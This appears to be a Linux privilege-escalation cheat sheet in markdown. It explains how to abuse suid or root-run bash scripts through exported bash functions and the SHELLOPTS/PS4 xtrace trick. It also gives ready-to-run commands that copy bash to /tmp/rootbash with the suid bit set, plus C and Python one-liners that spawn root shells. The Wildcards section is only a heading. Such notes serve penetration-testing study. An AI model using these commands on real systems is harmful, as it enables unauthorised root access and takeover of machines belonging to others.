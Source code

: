    **This works for =<4.2-048**  
  
- Suppose if a file or program running as root or has suid set or sgid set and it utilizes bash
     built in functions like e.g /usr/sbin/service then we can rebuilt this function with our code
     embedded inside. As Follows
      
   >    function /usr/sbin/service {/bin/bash -p; }
   
   >    export -f /usr/sbin/service

  **This works for bash =<4.4**
 
-  When a file either running as root or has a suid or sgid set and it uses bash to do some kinf of work
 then we can abuse it as well. A env variable SHELLOPTS when set to xtrace allows us to append some values in the file.a env varibale named PS4 can be specified when running the targeted binary
 or file in debugging mode. We can set the PS4 var to any command which will be executed with fileowner
 priveleges . Since File owner is either root or has suid set commands will be executed as root


 >  env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash;chmod +s /tmp/rootbash)' <binarytobeexploited path >
 
   

   ### Spawning Root Shell 

   >  If we can write to a file which is run by root ,then we can spawn a root shell inside our shell
   > This is done by copying the /bin/bash to tmp directory and then giving it suid bit. When we run that 
   > copy of bash we will get root
   
   1.  cp /bin/bash  /tmp/rootbash
   2. chmod +s /tmp/rootbash

   > Add above in a file being run by root and now we can run the /tmp/rootbash - p to get root

       #### C ROOT SPAWN
         
   - we can use this C code to spawn root once compiled
     
   > int main(){setuid(0);system("/bin/bash -p");} 


       #### PYTHON ROOT SPAWN

   -   This python code can directly spawn a root shell
  
   >  import os;os.system("/bin/bash ")
 

   > import pty;pty.spawn("/bin/bash ")



  ### Wildcards
  
  
  #### SUmmary
  